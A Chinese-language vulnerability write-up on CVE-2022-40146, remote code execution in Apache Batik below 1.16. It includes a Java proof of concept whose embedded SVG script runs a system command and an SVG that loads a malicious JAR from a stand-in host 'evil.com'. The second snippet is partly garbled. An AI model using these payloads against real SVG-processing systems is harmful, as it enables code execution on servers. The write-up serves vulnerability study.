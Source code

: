 # CVE-2022-40146 Apache XML Graphics Batik RCE
## 影响版本
< 1.16
## 环境搭建
https://xmlgraphics.apache.org/batik/download.html
## 原理分析
### Scripting with ECMAScript
该方式普遍可以适用于Version<1.16,在1.16版本中限制了能加载的包名,但还是存在潜在的利用类.  

ECMAScript是一个基于Java的Js开源组件,在Batik中默认支持在svg中嵌入ECMAScript代码,然而通过ECMAScript代码是可以执行任意代码的.
[Scripting with ECMAScript](https://xmlgraphics.apache.org/batik/using/scripting/ecmascript.html)  
根据文档只需要指定script type为`text/ecmascript`即可.  
```js
  <script type="text/ecmascript">
    // ECMAScript code to be executed
  </script>
```
根据ECMAScript语法,可以直接新建一个Runtime对象即可.  
但默认情况下Batik不支持执行脚本,所以需要配置`KEY_EXECUTE_ONLOAD`为True.
`t.addTranscodingHint(JPEGTranscoder.KEY_EXECUTE_ONLOAD,Boolean.TRUE);`
### 漏洞复现
poc:
```java
import org.apache.batik.transcoder.TranscoderException;
import org.apache.batik.transcoder.TranscoderInput;
import org.apache.batik.transcoder.TranscoderOutput;
import org.apache.batik.transcoder.image.JPEGTranscoder;

import java.io.*;

public class Batik {
    public static void main(String[] args) throws IOException, TranscoderException {
        String rcesvg ="<svg id=\"body\" width=\"450\" height=\"500\" viewBox=\"0 0 450 500\"\n" +
                "     xmlns=\"http://www.w3.org/2000/svg\" version=\"1.2\"\n" +
                "     xmlns:xlink=\"http://www.w3.org/1999/xlink\" >\n" +
                "    <script type=\"text/ecmascript\">\n" +
                "        eval(''+new String(java.lang.Runtime.getRuntime().exec('calc.exe')));\n" +
                "    </script>\n" +
                "</svg>";
        JPEGTranscoder t = new JPEGTranscoder();
        t.addTranscodingHint(JPEGTranscoder.KEY_EXECUTE_ONLOAD,Boolean.TRUE);
        byte[] svgbytes = rcesvg.getBytes();
        TranscoderInput input = new TranscoderInput(new ByteArrayInputStream(svgbytes));
        OutputStream outputStream = new FileOutputStream("test.jpg");
        TranscoderOutput transcoderOutput = new TranscoderOutput(outputStream);
        t.transcode(input,transcoderOutput);
        outputStream.flush();
        outputStream.close();

    }
}
```
![](2022-11-03-18-43-46.png)
### Referencing Java code from a document
该方式只适用于Version<1.15.  
根据官方文档,在Batik中为SVG还实现了对JAVA代码的绑定,简单来说可以从SVG文件的元素中引用JAVA代码.  
[Referencing Java code from a document](https://xmlgraphics.apache.org/batik/using/scripting/java.html)  
根据文档描述只需要指定元素type为`application/java-archivexlink:href`然后后面指定一个URI定位JAR文件即可.  
![](2022-11-03-18-49-59.png)  
然后该jar包里面需要有一个继承于`EventListenerInitializer`类的恶意类,在其`initializeEventListeners`方法中执行恶意代码即可.  
SVG文件类似如下:
```js
<svgid=“body”width=“450”height=“500”viewBox=“0 0 450 500”
     xmlns=“http://www.w3.org/2000/svg”版本=“1.2”
     xmlns：xlink=“http://www.w3.org/1999/xlink” >
    <script type=“application/java-archive”xlink：href=“jar：http：//evil.com/poc.jar！/”></script >
</.svg>
```  
同样根据CVE-2022-38398的方法使用jar协议来绕过安全脚本策略.  
但该方法因为代码的一个bug需要手动指定允许的脚本类型,相比于ECMAScript来说适用性没那么高,不作深究. 
具体可参考https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading  
## 补丁
针对远程加载jar包的利用则限制了href的协议不能为jar协议.  
针对ECMAScript脚本利用的方式則是在1.16中增加了白名单的包名,但仍然可能存在利用的类.
## 参考
https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading